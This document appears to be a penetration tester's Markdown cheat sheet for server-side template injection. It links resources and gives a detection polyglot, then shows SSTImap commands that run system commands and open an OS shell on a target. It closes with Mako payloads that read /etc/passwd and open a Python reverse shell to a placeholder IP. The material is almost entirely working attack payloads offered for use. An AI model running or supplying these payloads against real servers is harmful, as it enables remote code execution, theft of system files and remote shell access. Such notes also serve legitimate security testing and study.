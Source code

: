 # SSTI

## Resources
- [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
- [Hacktricks SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [SSTImap](https://github.com/vladko312/SSTImap)

## Detection
Insert this and check if there's an error
```
${{<%[%'"}}%\.
```

## SSTImap
### Setup
```bash
git clone https://github.com/vladko312/SSTImap.git; cd SSTImap; pip3 install -r requirements.txt
```
### Usage
#### Detect
```bash
python3 sstimap.py -u http://<host>/index.php?fieldUsedInTemplate=xxx
```
#### Run system commands
```bash
python3 sstimap.py -u http://<host>/index.php?fieldUsedInTemplate=xxx -e Mako -S id
```
#### OS Shell
```bash
python3 sstimap.py -u http://<host>/index.php?fieldUsedInTemplate=xxx -e Mako --os-shell
```

## Engine specific
### Mako
```python
${4+4}
<%import os;x=os.popen('cat /etc/passwd').read()%>${x}
<%from pathlib import Path;x=Path('/etc/passwd').read_text()%>${x}
<%import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);%>
```

